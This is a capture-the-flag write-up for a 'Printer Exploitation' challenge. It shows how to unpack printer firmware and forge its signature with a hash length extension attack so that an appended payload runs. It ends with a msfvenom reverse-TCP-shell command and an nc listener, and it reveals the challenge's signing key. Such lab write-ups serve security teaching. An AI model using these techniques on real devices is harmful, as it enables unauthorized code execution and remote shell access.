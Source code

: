 # Printer Exploitation

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [printer website](https://printer.kringlecastle.com/)<br/>
**Terminal hint**: -


## Objective

!!! question "Request"
    Investigate the stolen [Kringle Castle printer](https://printer.kringlecastle.com/). Get shell access to read the contents of `/var/spool/printer.log`. What is the name of the last file printed (with a `.xlsx` extension)? Find Ruby Cyster in Jack's office for help with this objective.

??? quote "Ruby Cyster"
    So first things first, you should definitely take a look at the firmware.<br/>
    With that in-hand, you can pick it apart and see what's there.<br/>
    Did you know that if you append multiple files of that type, the last one is processed?<br/>
    Have you heard of [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)?<br/>
    If something isn't working, be sure to check the output! The error messages are very verbose.<br/>
    Everything else accomplished, you just might be able to get shell access to that dusty old thing!


## Hints

??? hint "Dropping Files"
    Files placed in `/app/lib/public/incoming` will be accessible under [https://printer.kringlecastle.com/incoming/](https://printer.kringlecastle.com/incoming/).

??? hint "Hash Extension Attacks"
    [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) can be super handy when there's some type of validation to be circumvented.

??? hint "Printer Firmware"
    When analyzing a device, it's always a good idea to pick apart the firmware. Sometimes these things come down Base64-encoded.


## Solution

### Reverse the firmware

We first need to understand what a firmware file looks like. So, download the [current firmware](../artifacts/objectives/o7/firmware-export.json) from the [printer website](https://printer.kringlecastle.com), copy out the data in the JSON file's `firmware` field, Base64 decode the data, and save it to its own `firmware-export.bin` file (line 1).  The `file` command tells us we're working with a ZIP file (line 2). Unpacking the archive reveals a `firmware.bin` executable (lines 3-4).

??? info "Parsing JSON data in the command line"
    [`jq`](https://stedolan.github.io/jq/) is a handy command line JSON processor. You can use it to slice, filter, and transform structured JSON data with the same ease that tools like `sed`, `awk`, and `grep` let you manipulate text. `jq` isn't a requirement for this challenge, but it helps to turn the whole extraction process into an easy-to-use one-liner.

```shell linenums="1" title="Extracting the firmware"
cat firmware-export.json | jq -r '.firmware' | base64 -D > firmware-export.bin
file firmware-export.bin  # indicates this is a ZIP file
mv firmware-export.bin firmware-export.zip  # rename for clarity
unzip firmware-export.zip  # unpack archive
file firmware.bin  # indicates this is a 64-bit ELF binary
```

To create a valid firmware file we simply reverse the steps described above. Create an executable called `firmware.bin`, compress the file, and copy the Base64 encoded archive data to the `firmware` field in the JSON file. The last step is to add a valid signature to the JSON file, but unfortunately we're missing the necessary secret key to create that signature.


### Ensuring signature validation

When uploading a firmware file, the printer will validate the uploaded signature by calculating a new signature value using a secret key only it knows. If the calculated signature matches the value in the uploaded JSON file, the firmware is considered valid and the printer will execute the enclosed `firmware.bin` file. If the signature is invalid, we get the following error.

![Invalid signature](../img/objectives/o7/invalid_signature.png){ class=border }

Building a new firmware file means we also need a new signature, but how do we do that without the secret key? That question is answererd by the [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) hint, which also provides a handy [Hash Extender](https://github.com/iagox86/hash_extender) tool to automate the attack! :partying_face:

!!! quote "blog.skullsecurity.org"
    An application is susceptible to a hash length extension attack if it prepends a secret value to a string, hashes it with a vulnerable algorithm, and entrusts the attacker with both the string and the hash, but not the secret. Then, the server relies on the secret to decide whether or not the data returned later is the same as the original data.

    It turns out, Even though the attacker doesn't know the value of the prepended secret, he can still generate a valid hash for *{secret || data || attacker_controlled_data}*! This is done by simply picking up where the hashing algorithm left off; it turns out, 100% of the state needed to continue a hash is in the output of most hashing algorithms! We simply load that state into the appropriate hash structure and continue hashing.

Since we're appending our payload to valid firmware data in order to execute the Hash Extension attack, we also don't need to worry about which of the 2 ZIP archives will be unpacked. Ruby Cister notes that *"if you append multiple files of that type, the last one is processed"*, which ensures our `firmware.bin` will be extracted and executed by the printer after successful validation.


### Creating the payload

For the payload we can keep it simple by using a [shell script](../tools/objectives/o7/payload-script.sh) or [binary](../tools/objectives/o7/payload-c.c) that copies `/var/spool/printer.log` to `/app/lib/public/incoming`, making it accessible from `https://printer.kringlecastle.com/incoming/`. Name the payload `firmware.bin`, make it executable using `chmod +x firmware.bin`, and compress the file using `zip payload-script.zip firmware.bin`.

We now have the original [`firmware-export.zip`](../artifacts/objectives/o7/firmware-export.zip) we extracted previously and our own [`payload-script.zip`](../tools/objectives/o7/payload-script.zip), which we both use as input for [Hash Extender](https://github.com/iagox86/hash_extender) to create the final combined payload and valid signature.

??? info "Compiling Hash Extender"
    The [Hash Extender](https://github.com/iagox86/hash_extender) C code first needs to be compiled into a binary before we can use it. Clone the [Hash Extender repository](https://github.com/iagox86/hash_extender), change into the `hash_extender` directory using `cd hash_extender`, and finally run `make` to compile the project into a single `hash_extender` binary.

![Hash Extender](../img/objectives/o7/hash_extender.png)

The [`xxd`](https://linux.die.net/man/1/xxd) command will create a hex dump of our `payload-script.zip` file and `xargs` will then take that data and make it available to `hash_extender` as `append_data`. As an alternative to these commands you could also [update the source code](../tools/objectives/o7/hash_extender-append-file-fix.c) to support an `--append-file` parameter that takes a filename as input instead of the raw data. Using `--output-data-format fancy | head -n -3 | tail -n +5 | xxd -r | base64` we can extract the hex data from the output, convert it to binary, and Base64 encode it.


### Putting it all together

Use the new signature and Base64 data from the previous step to create a new [`firmware-payload-script.json`](../tools/objectives/o7/firmware-payload-script.json) file and upload it to the printer. Once the upload finishes the printer will validate the JSON, decode the enclosed Base64 data, validate the signature, unpack the last archive which contains our payload, and execute our `firmware.bin` shell script which copies `/var/spool/printer.log` to `/app/lib/public/incoming/crahan_printer.log`. We can now download the printer log file from `https://printer.kringlecastle.com/incoming/crahan_printer_new.log`.

![Printer log](../img/objectives/o7/printer_log.png){ class=border }

!!! done "Answer"
    `Troll_Pay_Chart.xlsx`

!!! note "Reverse shell<span id="reverse-shell"></span>"
    The example above uses a very simple payload to copy the file we need to a location we can access it from, but you can also solve this challenge by using a reverse shell as the payload. Only the payload creation part is different. All other steps remain exactly the same as outlined above.
    
    Create a simple reverse TCP shell payload using [MSFvenom](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/) by running `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=9085 -f elf > firmware.bin`. Next, set up a listener using `nc -lvp 9085` that will accept the incoming reverse shell connection. Finally, upload the new firmware file and watch the connection be established.

    In [`/app/lib/app.rb`](../artifacts/objectives/o7/app.rb) you'll find the *mybigsigningkey!* secret key which is used by the printer to validate the firmware signature. In `/var/spool/` there's a [`birdknob.png`](../artifacts/objectives/o7/birdknob.png) picture of a... bird on a doorknob, and you can also leave [a note](https://twitter.com/joeammond/status/1470176441392418816) on the host for other players to find.

    ![Reverse shell](../img/objectives/o7/reverse_shell.png)
